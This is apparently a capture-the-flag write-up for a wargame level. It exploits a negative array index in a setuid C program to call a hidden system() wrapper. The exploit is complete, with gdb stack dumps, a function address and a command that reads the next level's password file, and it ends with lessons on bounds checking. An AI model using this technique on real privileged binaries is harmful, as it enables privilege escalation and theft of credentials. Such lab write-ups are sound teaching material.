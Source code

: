 ## Level 3: validate user input and array boundaries

As before,
the password for the next level is in `/home/level03/.password`,
and a vulnerable setuid program with its source code is in `/levels/level03`.

Let's first play with the program to see what it does:
```
level02@box:~$ /levels/level03/level03
Usage: ./level03 INDEX STRING
Possible indices:
[0] to_upper    [1] to_lower
[2] capitalize  [3] length
level02@box:~$ /levels/level03/level03 0 hello
Uppercased string: HELLO
level02@box:~$ /levels/level03/level03 2 hello
Capitalized string: Hello
level02@box:~$ /levels/level03/level03 3 hello
Length of string 'hello': 5
```

It takes a string and runs some function on it depending on the index parameter.
Let's try to misuse this, for example with a negative index:
```
level02@box:~$ /levels/level03/level03 -1 x
Segmentation fault
```

Ouch. That can't be good.
Let's look at the relevant source code to see what happens to a negative index:
```
int main(int argc, char **argv) {
  int index;
  fn_ptr fns[NUM_FNS] = {&to_upper, &to_lower, &capitalize, &length};

  // Parse supplied index
  index = atoi(argv[1]);

  return truncate_and_call(fns, index, argv[2]);
}
```

The `main` method converts the index to an integer,
and calls `truncate_and_call` with 
an array of functions, the index, and the string argument.
Let's see this other function:
```
int truncate_and_call(fn_ptr *fns, int index, char *user_string) {
  char buf[64];
  // Truncate supplied string
  strncpy(buf, user_string, sizeof(buf) - 1);
  buf[sizeof(buf) - 1] = '\0';
  return fns[index](buf);
}
```

It truncates the string to 64 characters,
takes a function pointer from the `fns` array,
and calls it using the truncated buffer as parameter.

By applying pointer arithmetics,
a negative index will reference a memory location before the beginning of `fns`,
which happens to be on the stack.
The stack is a memory region to store local variables,
function parameters, return values, among others.
The details depend on the CPU architecture,
but roughly the following happens when `truncate_and_call` is called from `main`:

1. The function parameters are pushed on the stack in reverse order:
   the string, the index, the array of functions

2. The pointer to the next line of code in `main` is pushed on the stack

3. The function `truncate_and_call` is called

4. The local variable `buf` is pushed on the stack

When we reach the line of `fns[index](buf)`,
the content of the stack looks something like this:
```
0x0000      content of buf (1024 bytes)
0x0040+?    the return address
...
0x0040+X    content of fns (16 bytes) -->
0x0040+X        address of to_upper (4 bytes)
0x0040+X+4      address of to_lower
...
0x00??      content of index
0x00??      content of user_string
```

If index is 0-3,
the program will find the address of `to_upper`, `to_lower`, and so on, respectively,
and execute it.
Using a negative index,
the program will do the same with whatever it finds at the pointed location.

Now,
if the content of `buf` is stored before `fns`,
we can put there the address of another function,
and use an appropriate negative index to make the program execute it.
This unused `run` function looks perfect for our purposes:
```
int run(const char *str) {
  // This function is now deprecated.
  return system(str);
}
```

It takes a string and calls `system`,
which in turn will run it in the shell.
Since we can control the parameter,
we can make the program run whatever we want.

We can find the address of `run` using `objdump`:
```
level02@box:/levels/level03$ objdump -d level03 | grep run
0804879b <run>:
080487ae <truncate_and_call>:
 8048806:   74 05                   je     804880d <truncate_and_call+0x5f>
 80488f1:   e8 b8 fe ff ff          call   80487ae <truncate_and_call>
```

To find the right negative index,
we need to figure out the distance between `fns` and `buf` in the memory.
We can do that using `gdb`:
```
level02@box:/levels/level03$ gdb ./level03
(gdb) run -1 AAAAAAAA
Starting program: /levels/level03/level03 -1 AAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0xb77e1334 in ?? () from /lib/libc.so.6
```

That is,
we run the program with a negative index to make it crash,
and `AAAAAAAA` as the string to make it easy to spot when we look at the memory content.
When the program crashes,
`gdb` outputs the address of the code it could not execute,
in this example `0xb77e1334`.
Let's see the first couple of bytes of the stack:
```
(gdb) x/60xw $sp      
0xbfae3d5c: 0xbfae3dd8  0x00000001  0x00000000  0x00000000
0xbfae3d6c: 0x41414141  0x41414141  0x00000000  0x00000000
0xbfae3d7c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3d8c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3d9c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3dac: 0xaf5a90a9  0x00000000  0x0000000a  0xbfae3df8
0xbfae3dbc: 0x080488f6  0xbfae3dd8  0xffffffff  0xbfae4e4b
0xbfae3dcc: 0x08048921  0xb7705f52  0xb77e1334  0x08048624
0xbfae3ddc: 0x08048680  0x080486dc  0x08048759  0x0000044e
```

The string `AAAAAAAA` is easy to spot,
now we know that `buf` starts at `0xbfae3d6c`.
And since `fns[-1]` contains `0xb77e1334`,
now we also know that `fns[0]` is at `0xbfae3dd8`.
Before we can calculate the correct negative index,
consider that we need to use `buf` for more than one thing:

1. It should contain the address of the `run` method somewhere in it.

2. It should start with a suitable shell command to
   reveal the content of the password file.

If, for example,
we put the command `cat /home/level03/.password;` in the string,
followed by the address of the `run` method,
the memory will look something like this:
```
0xbfae3d6c:   c a t       / h o m     e / l e     v e l 0
0xbfae3d7c:   3 / . p     a s s w     o r d ;   0x0804879b
0xbfae3d8c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3d9c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3dac: 0xaf5a90a9  0x00000000  0x0000000a  0xbfae3df8
0xbfae3dbc: 0x080488f6  0xbfae3dd8  0xffffffff  0xbfae4e4b
0xbfae3dcc: 0x08048921  0xb7705f52  0xb77e1334  0x08048624
```
The difference between `fns` and the jump address is `0xbfae3dd8 - 0xbfae3d88 = 80`,
and since the size of an element in `fns` is 4 bytes,
the index we're looking for is `-80 / 4 = -20`:
```
level02@box:/levels/level03$ ./level03 -20 "cat /home/level03/.password;$(printf '\x9b\x87\x04\x08')"
eingaima
cat: can't open '��': No such file or directory
```

### Lessons to learn

- When validating user input,
  remember to consider nonsense input too,
  like negative indexes in this example,
  also known as *fuzz testing*.

- Always check array boundaries,
  make sure they are not breached at either end.

- Remove unused, deprecated code,
  especially if it's potentially dangerous.

